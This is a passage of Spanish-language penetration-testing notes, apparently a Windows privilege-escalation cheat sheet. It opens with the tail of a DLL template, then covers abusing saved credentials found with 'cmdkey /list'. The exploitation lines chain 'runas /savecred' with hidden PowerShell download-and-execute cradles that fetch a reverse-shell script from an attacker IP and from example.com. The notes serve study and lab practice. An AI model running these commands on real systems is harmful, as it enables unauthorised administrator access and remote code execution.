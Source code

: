 ```cpp
		// Este caso se ejecuta cuando un hilo que usaba la DLL termina.
		break;
	case DLL_PROCESS_DETACH:
		// Este caso se ejecuta cuando la DLL es descargada del proceso.
		break;
	}
	return TRUE; // Indica que la DLL se cargó correctamente.
}
```




## runas save creds
- **Detección**: `cmdkey /list`

```powershell
C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
    

C:\Users\security\Desktop>
```

- **Explotación**: `runas /user:ACCESS\Administrator /savecred "powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.58/rev.ps1')"`
    - También podemos hacer: `runas 
    - **Ejecutar un archivo ejecutable**: `runas /user:ACCESS\Administrator /savecred "C:\path\to\executable.exe"`
    - **Abrir el símbolo del sistema como administrador**: `runas /user:ACCESS\Administrator /savecred "cmd.exe"`
    - **Ejecutar un script de PowerShell**: `runas /user:ACCESS\Administrator /savecred "powershell.exe -File C:\path\to\script.ps1"`
    - **Abrir el Administrador de tareas como administrador**: `runas /user:ACCESS\Administrator /savecred "taskmgr.exe"`
    - **Ejecutar un programa con argumentos específicos**: `runas /user:ACCESS\Administrator /savecred "notepad.exe C:\path\to\file.txt"`
    - **Abrir el Editor del Registro**: `runas /user:ACCESS\Administrator /savecred "regedit.exe"`
    - **Ejecutar un navegador web**: `runas /user:ACCESS\Administrator /savecred "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"`
    - **Ejecutar un comando en PowerShell interactivo**: `runas /user:ACCESS\Administrator /savecred "powershell.exe -Command Get-Process"`
    - **Abrir el Explorador de Windows como administrador**: `runas /user:ACCESS\Administrator /savecred "explorer.exe"`
    - **Ejecutar un script remoto**: `runas /user:ACCESS\Administrator /savecred "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"`

